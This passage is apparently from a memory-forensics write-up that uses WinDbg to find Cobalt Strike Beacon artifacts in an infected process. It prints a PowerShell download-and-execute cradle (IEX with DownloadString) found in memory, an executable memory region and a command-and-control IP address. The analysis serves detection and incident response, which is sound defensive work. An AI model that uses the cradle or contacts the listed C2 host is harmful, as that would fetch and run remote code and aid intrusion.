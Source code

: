 All these strings are matching the patterns of a default Cobalt Strike Beacon profile, which has been aligned here: https://github.com/h3ll0clar1c3/CRTO/blob/main/CobaltStrikeBeacon_Default.profile

```
0:000> !mex.grep http !pde.dpx 24f`a0a30000 24f`a0a87000
               r11 : 0x000000b4dd9aee60 : 0x0000024fa0c43510 :  dt wininet!CFsm_HttpSendRequest
0x0000024fa0a6e648 : 0x2d77654e28205845 :  !da ""EX (New-Object Net.Webclient).DownloadString('http://127.0.0.1:%u/')""
0x0000024fa0a6e650 : 0x4e207463656a624f :  !da ""Object Net.Webclient).DownloadString('http://127.0.0.1:%u/')""
0x0000024fa0a6e658 : 0x6c636265572e7465 :  !da "et.Webclient).DownloadString('http://127.0.0.1:%u/')"
0x0000024fa0a6e660 : 0x6f442e29746e6569 :  !da "ient).DownloadString('http://127.0.0.1:%u/')"
0x0000024fa0a6e668 : 0x745364616f6c6e77 :  !da "wnloadString('http://127.0.0.1:%u/')"
0x0000024fa0a6e670 : 0x74682728676e6972 :  !da "ring('http://127.0.0.1:%u/')"
0x0000024fa0a6e6b8 : 0x624f2d77654e2820 :  !da "" (New-Object Net.Webclient).DownloadString('http://127.0.0.1:%u/'); %s""
0x0000024fa0a6e6c0 : 0x74654e207463656a :  !da ""ject Net.Webclient).DownloadString('http://127.0.0.1:%u/'); %s""
0x0000024fa0a6e6c8 : 0x65696c636265572e :  !da "".Webclient).DownloadString('http://127.0.0.1:%u/'); %s""
0x0000024fa0a6e6d0 : 0x6e776f442e29746e :  !da ""nt).DownloadString('http://127.0.0.1:%u/'); %s""
0x0000024fa0a6e6d8 : 0x6972745364616f6c :  !da ""loadString('http://127.0.0.1:%u/'); %s""
0x0000024fa0a6e6e0 : 0x707474682728676e :  !da ""ng('http://127.0.0.1:%u/'); %s""
0x0000024fa0a80560 : 0x646e655370747448 :  !da "HttpSendRequestA"
0x0000024fa0a82360 : 0x312e312f50545448 :  !da ""HTTP/1.1 200 OK..Content-Type: application/octet-stream..Content-Length: %d....""
```

Let's also examine this memory region that is marked with the **`PAGE_EXECUTE_READWRITE`** flag as well.

```
24f`a0cf0000      24f`a0d54000        0`00064000 MEM_PRIVATE MEM_COMMIT  PAGE_EXECUTE_READWRITE             <unknown>  [MZARUH..H......H]
```

The output from the **`!mex.grep`** command with a regular expression is used to find IP addresses in a specified memory range. Here we can see the IP address again of our C2, which happens to be **45[.]143[.]235[.]32**

```
0:000> !mex.grep -r (\b25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(\b25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(\b25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(\b25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?) !pde.dpx 24f`a0cf0000 24f`a0d54000
0x0000024fa0d2f248 : 0x2d77654e28205845 :  !da ""EX (New-Object Net.Webclient).DownloadString('http://127.0.0.1:%u/')""
0x0000024fa0d2f250 : 0x4e207463656a624f :  !da ""Object Net.Webclient).DownloadString('http://127.0.0.1:%u/')""
0x0000024fa0d2f258 : 0x6c636265572e7465 :  !da "et.Webclient).DownloadString('http://127.0.0.1:%u/')"
0x0000024fa0d2f260 : 0x6f442e29746e6569 :  !da "ient).DownloadString('http://127.0.0.1:%u/')"
0x0000024fa0d2f268 : 0x745364616f6c6e77 :  !da "wnloadString('http://127.0.0.1:%u/')"
0x0000024fa0d2f270 : 0x74682728676e6972 :  !da "ring('http://127.0.0.1:%u/')"
0x0000024fa0d2f278 : 0x3732312f2f3a7074 :  !da "tp://127.0.0.1:%u/')"
0x0000024fa0d2f2b8 : 0x624f2d77654e2820 :  !da "" (New-Object Net.Webclient).DownloadString('http://127.0.0.1:%u/'); %s""
0x0000024fa0d2f2c0 : 0x74654e207463656a :  !da ""ject Net.Webclient).DownloadString('http://127.0.0.1:%u/'); %s""
0x0000024fa0d2f2c8 : 0x65696c636265572e :  !da "".Webclient).DownloadString('http://127.0.0.1:%u/'); %s""
0x0000024fa0d2f2d0 : 0x6e776f442e29746e :  !da ""nt).DownloadString('http://127.0.0.1:%u/'); %s""
0x0000024fa0d2f2d8 : 0x6972745364616f6c :  !da ""loadString('http://127.0.0.1:%u/'); %s""
0x0000024fa0d2f2e0 : 0x707474682728676e :  !da ""ng('http://127.0.0.1:%u/'); %s""
0x0000024fa0d2f2e8 : 0x302e3732312f2f3a :  !da ""://127.0.0.1:%u/'); %s""
0x0000024fa0d48b30 : 0x0000024fa0c37fb0 :  !da "45.143.235.32"
```